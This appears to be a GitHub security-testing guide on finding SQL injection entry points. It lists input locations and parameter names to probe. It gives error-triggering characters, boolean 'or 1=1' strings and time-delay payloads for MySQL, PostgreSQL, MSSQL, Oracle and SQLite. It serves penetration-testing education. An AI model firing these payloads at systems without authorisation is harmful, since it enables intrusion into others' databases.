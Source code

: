 - ### [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#injection-points-1)
- ### [List of Parametes](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#list-of-parameters)
- ### [Giving Inputs](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#giving-inputs)
     * [Error Based](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#error-based)
     * [True False Based](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#true-false-based)
     * [Timing Attacks](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#timing-attacks)
  
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### List of parameters
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
